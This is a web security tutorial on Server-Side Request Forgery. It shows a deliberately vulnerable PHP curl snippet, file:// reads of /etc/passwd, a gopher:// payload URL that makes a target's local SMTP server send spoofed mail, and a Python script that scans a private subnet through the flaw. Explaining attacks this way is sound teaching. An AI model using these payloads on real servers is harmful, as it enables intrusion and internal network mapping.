> Server Side Request Forgery also called SSRF, are web vulnerabilities that allow files to be read on the local server. They should not be confused with CSRF's (Cross-Site Request Forgery), which are intended to execute a request without the knowledge of another user. One of the big advantages of SSRF is the ability to bypass firewalls.

Indeed, the actions being done on the server-side, it is possible to query services that are only available locally such as:

- NoSQL databases such as Redis, MongoDB
- Relational databases such as Oracle, MSSQL, MySQL, PostgreSQL
- Mail services such as Postfix or Dovecot
- Web services usually accessible locally

This kind of flaw is particularly present on Web proxies. A user of the proxy service can have access to internal data present in the server to which he should not normally have had access.

* * *

## How to Exploit an SSRF Vulnerability?

We have seen above the example of exploiting a web proxy, but there is a multitude of attack patterns. The web proxy example uses the HTTP protocol to access the internal data on the machine. We are then entitled to ask ourselves a question "How to communicate with the other services such as the databases, the e-mail services, etc ...?"

**Let take the following example:**

```html
$curl = curl_init();
curl_setopt_array($curl, array(CURLOPT_URL => $_GET['url']));

$resp = curl_exec($curl);
curl_close($curl);
```

This example takes as input an address and retrieves the associated page, the **PHP Curl** module is a simple adaptation of the `curl http://example.com` system command. We can therefore use all the features of **Curl** in particular, those related to the semantics of the address sent to the script as per the following pattern: `[protocole]://[IP|URL]:[port]/[param]`.

- The protocol to use: HTTP, HTTPS, FTP, GOPHER, FILE, DICT, etc ...
- The address
- The remote port
- The parameter if required

If you need more information about the protocols implemented by **Curl** we invite you to check the [documentation](https://curl.se/docs/manpage.html) on the offical page.

### The file:// and http:// Protocol

A protocol should catch our attention. The `file://` protocol, which allows us to open a file on the server. Using the previous script, we can try to read the `/etc/passwd` file on the server.

The `file://` protocol allowed us to access files, but how can we communicate with some of the services present on the machine? The [article](https://www.agarri.fr/blog/archives/2014/09/11/trying_to_hack_redis_via_http_requests/index.html) written by [Nicolas Grégoire](https://twitter.com/Agarri_FR) give us some good example of SSRF allowing us to exploit a Redis database service.

Redis, like MongoDB, is a NoSQL database with no authentication by default. The article pointed above explains how, using HTTP requests, we can extract and modify the database or either read files on the system. The main concern of this method is that the HTTP request must have a specific format to be correct:

```html
GET /index.html
Host: www.neoslab.com
User-Agent: Mozilla/5.0 (Windows NT 6.3; WOW64; rv:55.0) Gecko/20100101 Firefox/55.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: fr,fr-FR;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate, br
```

This format restricts the operation to service for example access to a service that needs a very precise preamble. Example of accessing the Redis database with an HTTP request:

```html
-ERR wrong number of arguments for 'get' command
-ERR unknown command 'Host:'
-ERR unknown command 'Accept:'
-ERR unknown command 'Accept-Encoding:'
-ERR unknown command 'Connection:'
```

### The gopher:// Protocol

To overcome the format problem, we can use the `gopher://` protocol. Gopher is a concurrent HTTP protocol that is not used anymore but still supported by curl.

It will allow us to communicate through Telnet with services such as SMTP used when an email is sent. In the below example, we are trying to send an e-mail using the SMTP server available locally.

```html
HELO localhost
MAIL FROM:<hacker@site.com>
RCPT TO:<victim@site.com>
DATA
From: [Hacker] <hacker@site.com>
To: <victim@site.com>
Date: Tue, 15 Sep 2020 17:20:26 -0400
Subject: Ah Ah AH

You did not say the magic word!


.
QUIT
```

If we convert the above request to a valid Gopher query it will become:

```html
https://victim.website/curl.php?url=gopher://127.0.0.1:25/xHELO%20localhost%250d%250aMAIL%20FROM%3A%3Chacker@site.com%3E%250d%250aRCPT%20TO%3A%3Cvictim@site.com%3E%250d%250aDATA%250d%250aFrom%3A%20%5BHacker%5D%20%3Chacker@site.com%3E%250d%250aTo%3A%20%3Cvictim@site.com%3E%250d%250aDate%3A%20Tue%2C%2015%20Sep%202020%2020%3A20%3A26%20-0400%250d%250aSubject%3A%20AH%20AH%20AH%250d%250a%250d%250aYou%20didn%27t%20say%20the%20magic%20word%20%21%250d%250a%250d%250a%250d%250a.%250d%250aQUIT%250d%250a
```

To move further and to test our SSRF, we set up a netcat server on port 25 which is associated with the SMTP protocol, and wait for the request to be executed:

```html
nc -lvp 25
listening on [any] 25 ...
connect to [127.0.0.1] from localhost [127.0.0.1] 35417
HELO localhost
MAIL FROM:<hacker@site.com>
RCPT TO:<victim@site.com>
DATA
From: [Hacker] <hacker@site.com>
To: <victim@site.com>
Date: Tue, 15 Sep 2020 17:20:26 -0400
Subject: AH AH AH

You did not say the magic word!


.
QUIT
```

* * *

## Enumeration of IP Addresses on the Local Network

We have seen in the previous sections that SSRF's act as a proxy to execute internal requests. They can then be used as a tool for the enumeration of the machines accessible through subnets network.

The only constraint is that the machine to be detected must have at least one service open. The most common services are often Web or SSH services using ports 80, 443, 8080, 22, or even RDP using port 3389 on the Windows system.

We can guess the accessible subnets thanks to the Apache configuration files **/etc/apache2/apache2.conf** or by looking in the IP address ranges of private networks:

- 10.0.0.0/8
- 172.16.0.0/12
- 192.168.0.0/16

To enumerate the available machines having an HTTP service on port 80, you can use the following `python` script:

```html
import requests

def ipRange(start_ip, end_ip):
   start = list(map(int, start_ip.split(".")))
   end = list(map(int, end_ip.split(".")))
   temp = start
   ip_range = []
   ip_range.append(start_ip)
   while temp != end:
      start[3] += 1
      for i in (3, 2, 1):
         if temp[i] == 256:
            temp[i] = 0
            temp[i-1] += 1
      ip_range.append(".".join(map(str, temp)))
   return ip_range

ip_range = ipRange("192.168.0.0", "192.168.255.255")
ip_up = []
for ip in ip_range:
    try:
        result = requests.get("http://victim.website/curl.php?url=http://"+ip+"/:80",timeout=0.5).content
        if(result is not ""):
            ip_up.append(ip)
            print "[+] Machine : "+ip
    except:
        pass

print("\n".join(ip_up))
```

* * *

###### Conclusion

Server-Side Request Forgery is an extremely lucrative vulnerability among the hackers, especially when your business infrastructure is on the cloud. To secure an application against SSRF's vulnerability, you will need to ensure that:

- The protocol used to allow only HTTP and HTTPS query
- The IP address linked to the requested URL must not be part of a private network